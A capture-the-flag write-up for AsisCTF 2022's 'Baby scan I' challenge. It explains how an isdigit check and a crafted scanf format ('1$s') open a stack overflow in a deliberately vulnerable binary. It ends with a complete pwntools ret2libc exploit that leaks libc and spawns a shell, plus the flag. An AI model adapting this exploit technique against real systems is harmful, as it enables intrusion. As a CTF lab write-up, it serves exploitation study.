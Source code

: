 ```yaml
---
title: "[Pwn] Baby scan I [AsisCTF 2022 Qual]"
date: 2022-10-15 20:53:00
---
```


# 0x0 Introduction

Baby scan I

Is it possible to scan the thousands of resulting strings by hand? We think it’s tedious, but will get the job done!

nc 65.21.255.31 13370

files: [babyscan_1](babyscan_1_12c5d902584e857a4f680aa1575d2fd81e08ec03.txz)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerbility

The source code is given

```
int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    return 1;
  }
  buf = (char*)alloca(atoi(size) + 1);

  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  return 0;
}
```

We can see that `isdigit` only take the first character of our input. We can bypass this check using any string start with a number.

This function also use `alloca`, `alloca` will allocate a space on top of the current stack address. 

Since the binary doesn't enable canary, if we can perform a buffer overflow on the code, we can control the rip and do a rop chain.

luckily, `scanf` give us an opportunity to do that. if we use `%s` in `scanf`, `scanf` will scan all the characters until some special character (such as `\n`, space) appear. This give us a chance to input a payload with any length and overwrite rest of the stack.

Finally payload is `1$s`, 1 is used for bypass the check. and the final format string will be `%1$ss`. This give us the ability to overwrite whole stack.

Then, we can construct a ROP chain to leak libc address and perform ret2libc attack.


# 0x3 Exploit

```python
from pwn import *

exe = ELF("chall")
exe_rop = ROP(exe)
if args.LOCAL:
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print
def start():
    if args.LOCAL:
        
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("65.21.255.31", 13370)
    return r


io = start()
ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15_ret_addr = exe_rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
io.sendlineafter(b"size: ",b"1$s")
io.sendlineafter(b"data: ",flat({
    0x8*8: 0x0000000000404d00,
    0x8*9: [
        pop_rdi_ret_addr,
        exe.got["puts"],
        exe.sym["puts"],
        exe.sym["main"],
    ]
}))
libc.address = int.from_bytes(io.recvuntil(b"\n",drop=True),"little")- libc.sym["puts"]
lp("libc base",hex(libc.address))
io.sendlineafter(b"size: ",b"1$s")
io.sendlineafter(b"data: ",flat({
    0x8*9: [
        ret_addr,
        pop_rdi_ret_addr,
        next(libc.search(b"/bin/sh")),
        libc.sym["system"],
    ]
}))
io.interactive()

```

# 0x4 Flag

ASIS{06e5ff13b438f5d6626a97758fddde3e502fe3fc}